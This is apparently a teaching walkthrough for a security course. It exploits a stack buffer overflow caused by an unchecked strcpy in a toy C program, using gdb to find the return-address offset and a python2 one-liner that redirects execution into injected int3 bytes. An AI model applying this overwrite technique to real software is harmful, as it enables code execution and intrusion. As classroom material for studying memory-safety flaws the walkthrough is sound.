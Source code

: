 # Stack Overflow Walkthrough

## Vulnerability

In this [program](main.c), the vulnerability is straightforward -- the invocation
of `strcpy` in `f` copies `input` into the stack buffer `buf` without checking
whether the length of `input` exceeds the length of `buf`, leading to a potential
overflow since `input` is untrusted (`argv[1]` in `main`).

## Exploitation

The first step is to determine how long of an input is required to overwrite the
saved instruction pointer on the stack for the return to `main`.  Note that even
though the size of `buf` is 256 bytes (and so in principle the distance should be
256 + 8 bytes (saved ebp) + 8 bytes (to overwrite the saved eip)), this distance
varies in practice due to issues like stack alignment, register spilling, etc.

So, the most reliable way to determine the required distance is to use gdb as
below (note that the addresses you see will most likely be a little different):

```
# Launch gdb on the vulnerable program
$ gdb main

# Set a breakpoint at f
(gdb) b f
Breakpoint 1 at 0x400560: file main.c, line 6.

# Run the program
(gdb) r AAAA
Starting program: /home/wkr/host/Devel/Class/SoftVulnSec/Examples/stack/main AAAA
Breakpoint 1, f (input=0x7fffffffe6f3 "AAAA") at main.c:6
6       strcpy(buf, input);

# Print the address of buf
(gdb) p &buf
$1 = (char (*)[256]) 0x7fffffffe270

# Examine the top of the current frame
(gdb) x/2xg $rbp
0x7fffffffe380: 0x00007fffffffe3a0  0x00000000004005d3

# Notice that the return address back to main is 0x4005d3,
# and starts at 0x7fffffffe388
(gdb) bt
#0  f (input=0x7fffffffe6f3 "AAAA") at main.c:6
#1  0x00000000004005d3 in main (argc=2, argv=0x7fffffffe488) at main.c:12

# So, we need to send 0x118 bytes to reach the return address
(gdb) p/x 0x7fffffffe388 - 0x7fffffffe270
$2 = 0x118
(gdb)
```

So, we've found that our payload needs to be 0x118 bytes long, and after that
section of the payload we can set an arbitrary return address.  Let's try
to inject a simple payload that returns to a buffer of breakpoint instructions
(`int3`, or 0xcc bytes).

```
# Run the program with an argument length we will send to recheck the
# address of buf (0x118 + 8 = 0x120)
(gdb) r "$(python2 -c 'print "A" * 0x120')"
Starting program: /home/wkr/host/Devel/Class/SoftVulnSec/Examples/stack/main "$(python2 -c 'print "A" * 0x120')"
Breakpoint 1, f (input=0x7fffffffe5d7 'A' <repeats 200 times>...) at main.c:6
6       strcpy(buf, input);
(gdb) p &buf
$5 = (char (*)[256]) 0x7fffffffe150

# Run the program again with a return to a buffer of breakpoints
(gdb) r "$(python2 -c 'print ("\xcc" * 0x118) + "\x50\xe1\xff\xff\xff\x7f\x00\x00"')"
Starting program: /home/wkr/host/Devel/Class/SoftVulnSec/Examples/stack/main "$(python2 -c 'print ("\xcc" * 0x118) + "\x50\xe1\xff\xff\xff\x7f\x00\x00"')"
Breakpoint 1, f (
    input=0x7fffffffe5d9 '\314' <repeats 199 times>, <incomplete sequence \314>...)
    at main.c:6
6       strcpy(buf, input);
(gdb) c
Continuing.
Program received signal SIGTRAP, Trace/breakpoint trap.
0x00007fffffffe151 in ?? ()
```

At this point, we have all the information we need.  The
[exploit script](exploit.py) uses the example payload compiled from
[payload.asm](payload.asm), appends the proper number of NOP instructions
to reach 0x118 bytes, and then appends the return address that you found
using gdb.
